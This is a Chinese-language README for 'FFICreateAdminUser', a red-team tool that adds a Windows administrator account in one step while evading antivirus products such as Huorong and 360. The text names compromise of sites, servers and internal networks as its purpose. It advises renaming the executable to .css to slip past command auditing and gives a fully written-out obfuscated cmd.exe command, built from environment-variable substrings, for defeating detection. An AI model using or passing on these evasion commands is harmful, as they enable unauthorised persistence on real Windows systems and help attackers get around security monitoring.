







# FFICreateAdminUser

## Code By:Tas9er / A.E.0.S Security Team

***一款ByPassAV进行Windows账号一键添加的红队实战工具！助力RedTeam大佬快速日站日服务器日内网***

***执行失败的一定要多试几次！！！***

#### 0x00.File SHA256 Hash

SHA256 的 FFICreateAdminUser.exe 哈希:
3d4fed81b272613f9b1559ed0da6db8573b1a84805c1c31a7471e887daba7d96

#### 0x01.Obfuscate Exec

如果通过命令行或者WebShell终端直接执行FFICreateAdminUser.exe有点蠢，很多设备会基于命令进行安全审计

因此可以将FFICreateAdminUser.exe改名为FFICreateAdminUser.css

执行命令：**cmd.exe /c FFICreateAdminUser.css**

但是还是有点蠢，建议使用如下命令执行，可以在很多场景下绕过

**c%CommonProgramFiles(x86):~26,-8%%windir:~-4,1%.%LOCALAPPDATA:~5,1%xe /%PUBLIC:~-1,1%%ProgramFiles(x86):~16,1%FFICre%APPDATA:~-5,-4%%ProgramData:~12,-1%eAd%ProgramFiles:~9,1%inUs%HOMEPATH:~3,1%r.c%SystemRoot:~9%s**

#### 0x02.ByPassAV

**火绒 - 常规添加**

**火绒 - FFI绕过添加**

**火绒 - 文件扫描**

**360安全卫士 - 常规添加**

**360安全卫士 - FFI绕过添加**

**360安全卫士 - 文件扫描**

#### 0x03.Other Explanatory

**A.概率性添加失败，提醒失败的话重新试几次就行了，没成功一定要多试几次，无所吊谓**

**B.检测样本库截止2024.12.10**

**C.风里雨里，裕华路高速路口等你，没毛病！**